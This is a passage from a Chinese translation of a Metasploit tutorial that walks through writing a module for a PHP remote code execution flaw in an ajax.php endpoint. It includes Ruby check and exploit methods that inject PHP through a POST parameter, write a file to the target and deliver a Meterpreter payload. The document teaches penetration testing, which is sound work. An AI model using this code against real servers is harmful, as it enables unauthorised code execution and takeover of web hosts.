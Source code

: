 我们可以看到我们已经声明了所有必需的库，并在初始化部分提供了必要的信息。由于我们正在利用基于 PHP 的漏洞，我们选择平台为 PHP。我们将`DisableNops`设置为 true，以关闭有效载荷中的`NOP`使用，因为利用针对的是 Web 应用程序中的远程代码执行漏洞，而不是基于软件的漏洞。我们知道漏洞存在于`ajax.php`文件中。因此，我们将`TARGETURI`的值声明为`ajax.php`文件。我们还创建了一个名为`CHECKURI`的新字符串变量，它将帮助我们为利用创建一个检查方法。让我们看一下利用的下一部分：

```
def check 
  send_request_cgi( 
      'method'    => 'POST', 
      'uri'       => normalize_uri(target_uri.path), 
      'vars_post' => { 
        'code' => "fwrite(fopen('info.php','w'),'<?php echo phpinfo();?>');" 
      } 
   ) 
  resp = send_request_raw({'uri' => normalize_uri(datastore['CHECKURI']),'method' => 'GET'}) 
  if resp.body =~ /phpinfo()/ 
   return Exploit::CheckCode::Vulnerable 
  else 
   return Exploit::CheckCode::Safe 
  end 
  end 
```

我们使用`send_request_cgi`方法以高效的方式容纳`POST`请求。我们将方法的值设置为`POST`，将 URI 设置为规范化格式中的目标 URI，并将`POST`参数`CODE`的值设置为`fwrite(fopen('info.php','w'),'<?php echo phpinfo();?>');`。这个有效载荷将创建一个名为`info.php`的新文件，同时编写代码，当执行时将显示一个 PHP 信息页面。我们创建了另一个请求，用于获取我们刚刚创建的`info.php`文件的内容。我们使用`send_request_raw`技术并将方法设置为`GET`来执行此操作。我们之前创建的`CHECKURI`变量将作为此请求的 URI。

我们可以看到我们将请求的结果存储在`resp`变量中。接下来，我们将`resp`的主体与`phpinfo()`表达式进行匹配。如果结果为真，将表示`info.php`文件已成功创建到目标上，并且`Exploit::CheckCode::Vulnerable`的值将返回给用户，显示标记目标为易受攻击的消息。否则，它将使用`Exploit::CheckCode::Safe`将目标标记为安全。现在让我们进入利用方法：

```
  def exploit 
    send_request_cgi( 
      'method'    => 'POST', 
      'uri'       => normalize_uri(target_uri.path), 
      'vars_post' => { 
        'code' => payload.encoded 
      } 
    ) 
  end 
end 
```

我们可以看到我们刚刚创建了一个带有我们有效载荷的简单`POST`请求。一旦它在目标上执行，我们就会获得 PHP Meterpreter 访问权限。让我们看看这个利用的效果：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/cpl-mtspl-gd/img/8b55d368-febe-452a-98e2-fab97148a29f.png)

我们可以看到我们已经在目标机器上获得了 Meterpreter 访问权限。我们已成功将远程代码执行漏洞转换为 Metasploit 中的可工作利用。

官方的 Metasploit 模块已经存在于 PHP 实用工具包中。您可以从以下链接下载利用：[`www.exploit-db.com/exploits/39554/`](https://www.exploit-db.com/exploits/39554/)。

# 将 TCP 服务器/基于浏览器的利用导入 Metasploit
